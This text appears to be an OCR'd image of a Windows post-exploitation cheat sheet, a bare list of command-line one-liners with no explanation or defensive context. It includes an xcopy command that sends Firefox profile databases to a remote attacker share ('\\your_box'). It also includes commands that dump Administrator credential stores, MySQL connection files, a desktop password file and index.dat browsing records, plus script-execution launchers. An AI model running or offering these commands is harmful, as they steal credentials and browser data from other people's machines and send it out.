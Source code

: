 rundll32.exe user32.dll, LockWorkStation: locks the screen

wscript.exe <script js/vbs>

cscript.exe <script js/vbs/c#>

xcopy /C /S %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\your_box

type "C:\documents and settings\administrator\userdata\index.dat"

type %WINDIR%\System32\drivers\etc\hosts: view contents of hosts files

type "c:\Documents and Settings\Administrator\Local Settings\Application Data\Microsoft\Credentials"

cd "C:/Documents and settings\administrator\userdata" & dir

type "c:\Documents and Settings\Administrator\Desktop\UserMysql.txt"

type "c:\Documents and Settings\Administrator\Application Data\MySQL\mysqlx_user_connections.xml"

type "C:\documents and settings\administrator\userdata\index.dat"
